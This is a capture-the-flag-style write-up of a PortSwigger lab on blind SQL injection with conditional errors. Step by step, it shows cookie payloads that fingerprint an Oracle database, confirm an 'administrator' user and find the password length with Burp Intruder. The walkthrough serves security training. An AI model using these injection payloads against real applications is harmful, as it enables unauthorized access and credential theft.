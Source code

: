 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8f2f9605-c675-4e8e-a129-0d5c0eee8cf2)## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/efc4ad9e-de11-4b84-87bd-cc445f4ef423)

## Solution :

Query made - 

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '<COOKIE-VALUE>'
```
#### trying to find the error messages-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

Add an extra `'` symbol.it was showing error.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1d39da04-bb00-4b76-877d-805ef4d941ba)

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'''
```

Add 2 extra `'` symbol.We get a response that shows the SQL syntax is right

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/042cb032-0ea4-4984-9707-f9a6f1eb88ca)

#### Checking database with conditional errors  -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '')||'
```
Error. This is because the database is **ORACLE**.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d0428fac-7368-49da-b2a6-2734ded02e40)
 
 for that we need to specify a table called **DUAL**
 
 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT ''FROM dual)||'
```
 
 ![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5f52a53b-46a2-4ac8-83e9-2c0989533e43)

 No error we got respones.So it is orcal database.
 
#### Check Whether the users table is present  -

 ```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9d7098fa-650d-4889-b8a0-06e9d038d7e5)

no erorr which means table exist.

*Keep in mind* > using WHERE ROWNUM = 1 is crucial. It ensures our query doesn't bring back more than one row, which could mess up our concatenation process.

#### Check Whether the username administrator is present in users table -

```Here table name is users```

We can exploit this error inducing queries to test if admin user is present or not.

>Points to rember here in qury it will always perform the `FROM` portion first if this is true then it will go to the `SELECT` portion.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8fd94e70-db25-4e08-b68c-f25af1e1139d)


We receive an error. means the condition is *TRUE* and username administrator is present in users table .

when we use `1=2`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0829dfc4-75e2-4075-afe2-375a8c7f96b4)

We receive no error. means the condition is *False* and username administrator is present in users table .

#### Determine the length of admin's password -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>25) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4aa7af67-91b8-4755-84ed-546c04db96a5)

```no error which which means the length of the password is less than 25```

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>$1$) ||'
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/33a82c83-2746-4cc4-bc58-10f0efb7f4bf)

From line  20, we are not  getting  an error where condition is *(LENGTH > 20)*.

![Screenshot 2024-02-04 212405](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4e5bb4c7-12a9-479b-8197-71eff7277f53)

Password length  is  **20** characters long.
